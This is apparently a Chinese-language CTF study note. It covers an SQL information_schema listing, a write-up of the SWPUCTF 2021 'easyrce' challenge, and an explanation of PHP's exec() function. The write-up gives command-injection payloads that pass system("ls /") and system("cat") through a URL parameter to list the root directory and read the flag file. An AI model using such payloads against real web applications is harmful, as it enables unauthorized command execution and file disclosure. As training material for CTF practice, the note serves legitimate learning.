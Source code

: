 可能会返回：

| table_schema | table_name |
| ------------ | ---------- |
| blog         | article    |
| blog         | users      |
| mysql        | user       |
| testdb       | test_table |

`information_schema.tables` 就是数据库中所有“表清单”的总目录。

`table_schema` 用来筛选某个数据库（相当于“库名”）。

# [SWPUCTF 2021 新生赛]easyrce

![image-20250731174921006](E:\note_ctf\assets\image-20250731174921006.png)

```
  ?url=system("ls /");
   #?代表拼接
   #ls /代表列出目录文件，学过Linux系统的大部分都有所了解。
   #代码意思是将外部执行命令ls /的结果赋值给url变量，最后在浏览器中显示结果。
   #注意以;英文分号进行闭合。
```

使用cat命令查看flllllaaaaaaggggggg文件中的命令，需注意的是文件在/根目录下：

```
?url=system("cat /flllllaaaaaaggggggg");
```

![image-20250731175054135](E:\note_ctf\assets\image-20250731175054135.png)

## 执行外部命令函数

### exec 

exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行，如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录，所以如果你需要反复输出调用不同系统外部命令的结果，你最好在输出每一条系统外部命令结果时清空这个数组，以防混乱。第三个参数用来取得命令执行的状态码，通常执行成功都是返回０。 
#示例代码：

```
<?php
        echo exec("ls",$file);
        echo "</br>";
        print_r($file);
?>
```

#输出结果：

```
test.php
Array( [0] => index.php [1] => test.php)
```
